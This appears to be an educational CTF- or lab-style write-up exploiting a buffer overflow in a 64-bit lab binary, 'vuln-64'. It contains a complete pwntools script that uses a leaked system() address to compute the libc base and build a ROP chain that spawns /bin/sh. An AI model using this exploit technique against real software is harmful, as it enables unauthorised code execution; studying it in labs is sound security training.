

## 📘 Exploit Write-up: `vuln-64` – system() Leak to Shell (x64)

---

### 🔍 Binary Overview

* **Target:** `vuln-64`
* **Architecture:** 64-bit (x86\_64)
* **NX:** Enabled
* **ASLR:** Enabled
* **Stack Canary:** Not present
* **PIE:** Disabled
* **Libc:** Dynamically linked (known version)
* **Vulnerability:** Classic Buffer Overflow with libc leak

---

### 🧠 Objective

Exploit a buffer overflow vulnerability in a 64-bit binary using a leaked address of `system()`, and then call:

```c
system("/bin/sh");
```

to spawn a shell.

---

## 🧬 Calling Convention: 32-bit vs 64-bit

|             | **32-bit (x86)**            | **64-bit (x86\_64 / AMD64)**          |
| ----------- | --------------------------- | ------------------------------------- |
| Argument 1  | `pushed` onto the **stack** | passed in **RDI register**            |
| Argument 2  | stack                       | RSI                                   |
| Argument 3  | stack                       | RDX                                   |
| Return addr | on stack                    | on stack                              |
| Cleanup     | caller                      | caller                                |
| Alignment   | not required                | sometimes needs a `ret` for alignment |

✅ **In 64-bit, arguments are passed via registers,** which is why you need gadgets like `pop rdi; ret` to set up function calls.

---

### 🔓 Vulnerability

The binary prints the address of `system()` at runtime:

```c
printf("system is at: %p\n", system);
```

You control input later and can overflow the stack.

---

### ⚙️ Exploit Strategy

1. Receive the **leaked `system()` address**.
2. Calculate **libc base** from known offset of `system`.
3. Find:

   * `/bin/sh` string inside libc
   * `pop rdi; ret` gadget to set the first argument
   * optional `ret` gadget for alignment (some libc versions crash without it)
4. Build ROP chain:

   * Overflow
   * `pop rdi; ret`
   * Address of `"/bin/sh"`
   * `ret` (optional)
   * Call `system`
5. Send payload and interact with shell.

---

### 🧪 Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./vuln-64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP(elf)
p = process()

# Step 1: Leak system() address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)
log.info(f'Leaked system: {hex(system_leak)}')

# Step 2: Calculate libc base
libc.address = system_leak - libc.sym['system']
log.success(f'Libc base: {hex(libc.address)}')

# Step 3: Find gadgets and strings
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
ret = rop.find_gadget(['ret'])[0]  # Optional alignment

log.info(f'pop rdi; ret at: {hex(pop_rdi)}')
log.info(f'/bin/sh at: {hex(bin_sh)}')

# Step 4: Build payload
payload = flat(
    b'A' * 40,         # Overflow buffer (to return address)
    pop_rdi,           # Set RDI = /bin/sh
    bin_sh,
    ret,               # Optional alignment (some libc requires it)
    libc.sym['system'] # system("/bin/sh")
)

# Step 5: Send payload and get shell
p.sendline(payload)
p.interactive()
```

---

### 🧾 Example Output




---

### ✅ Success

We successfully spawn a shell via ROP and call to `system("/bin/sh")`.

---

## 🔍 Summary

| Component       | Value                         |
| --------------- | ----------------------------- |
| Overflow offset | 40 bytes                      |
| system() leak   | Parsed from program output    |
| libc base       | Calculated from system offset |
| pop rdi; ret    | Found via ROP                 |
| /bin/sh         | Located in libc               |
| Final call      | `system("/bin/sh")`           |

